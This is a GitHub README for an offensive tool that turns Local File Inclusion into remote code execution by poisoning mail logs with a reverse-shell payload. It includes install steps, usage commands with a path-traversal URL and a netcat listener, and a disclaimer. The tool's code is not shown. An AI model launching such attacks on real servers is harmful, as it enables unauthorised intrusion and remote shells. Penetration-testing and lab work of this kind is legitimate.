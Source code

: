 # MailPoisonRCE

```sh
This tool is for Local File Inclusion to Remote Code Execution via mail log poisoning. 
There are some requirements needed inorder to use the tool
1. Local File Inclusion
2. smtp authentication

The tool simply access the SMTP and send a mail with a reverseshell payload.
next it will setup a netcat listener and sends a get request on the URL 
thats vulnerable to LFI and access the smtp log to pop the shell
```

### Installation

Run the command below to install the required libraries used in the tool.
* pip3
  ```sh
  pip3 install -r requirements.txt
  ```
  
### Usage

  ```sh
Authenticated usage: python3 MailPoisonRCE.py -s 10.11.12.13 -sp 25 -e from@test.com -t test@rcpnt.com -i 127.0.0.1 -p 4444 -u http://10.11.12.13/index.php?page=../../../var/mail/test -us user -pw root

Unauthenticated usage: python3 MailPoisonRCE.py -s 10.11.12.13 -sp 25 -e from@test.com -t test@rcpnt.com -i 127.0.0.1 -p 4444 -u http://10.11.12.13/index.php?page=../../../var/mail/test
  ```

![alt text](https://github.com/Pilum-Murialis/tools/blob/main/MailPoisonRCE/poc.PNG?raw=true)


# Disclaimer
```sh
The tool is for education purpose only. Usage of the tool for attacking the website without consent is illegal. 
The end user of the tool will be responsible for the damage it might cause.
The developer of the tool assume no liability and not responsbile for any misuse and damage.
```

## Authors

[damaidec](https://medium.com/@damaidec)

[Anantha vijay](https://medium.com/@vj35.cool)


